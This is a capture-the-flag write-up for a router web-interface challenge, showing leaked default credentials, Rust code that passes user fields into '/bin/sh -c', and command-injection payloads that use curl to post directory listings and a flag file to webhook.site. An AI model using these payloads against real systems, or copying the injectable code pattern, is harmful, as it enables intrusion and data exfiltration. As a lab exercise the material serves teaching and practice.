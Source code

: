```yaml
---
ai_date: '2025-04-27 05:22:51'
ai_summary: Rust code saves credentials and allows command injection, enabling file
  discovery and flag retrieval via curl.
ai_tags:
- cmd-inj
- file-disc
- flag-extract
created: 2024-06-15T04:41
points: 471
solves: 63
updated: 2024-08-04T19:46
---
```


> We are developing a new router but not sure if the interface has bug or not. Could you have a look?

Simple source digging gives us the username and password.

```
Username: admin
Password: 123456 (md5=e10adc3949ba59abbe56e057f20f883e)
```

```rust
fn save_properties_to_file(){
    unsafe{
        let cmd = format!("echo \"{ESSID}\\n{BAND}\\n{CHANNEL}\\n{WIFI_PASSWORD}\" > /tmp/{ID}.conf");
        Command::new("/bin/sh")
                        .arg("-c")
                        .arg(cmd)
                        .output()
                        .expect("Failed to execute command");
    }
}
```

It is simple formatting. *face palms*

Changing passwords has no verification.

Payload will be `"; CMD; echo "`, probably not the shortest but it will do the trick.

I will also send all results via curl to webhook.site.

```
"; curl -X POST -d "$(ls -la)" https://webhook.site; echo "
```

`ls` didn't find anything, maybe its some flag.txt thing.

```
"; curl -X POST -d "$(find / -type f -name "*flag*")" https://webhook.site; echo "
```

And there it is.

```
/proc/sys/kernel/acpi_video_flags
/proc/sys/net/ipv4/fib_notify_on_flag_change
/proc/sys/net/ipv6/fib_notify_on_flag_change
/proc/kpageflags
/home/user/flag.txt
/usr/lib/x86_64-linux-gnu/perl/5.34.0/bits/waitflags.ph
/usr/lib/x86_64-linux-gnu/perl/5.34.0/bits/ss_flags.ph
/sys/devices/pnp0/00:05/tty/ttyS2/flags
/sys/devices/pnp0/00:03/tty/ttyS0/flags
/sys/devices/pnp0/00:06/tty/ttyS3/flags
/sys/devices/pnp0/00:04/tty/ttyS1/flags
/sys/devices/virtual/net/lo/flags
/sys/devices/virtual/net/eth0/flags
/sys/module/scsi_mod/parameters/default_dev_flags
```

One last step from `/home/user/flag.txt`

```
"; curl -X POST -d "$(cat /home/user/flag.txt)" https://webhook.site; echo "
```

```flag
vsctf{1s_1t_tru3_wh3n_rust_h4s_c0mm4nd_1nj3ct10n!??}
```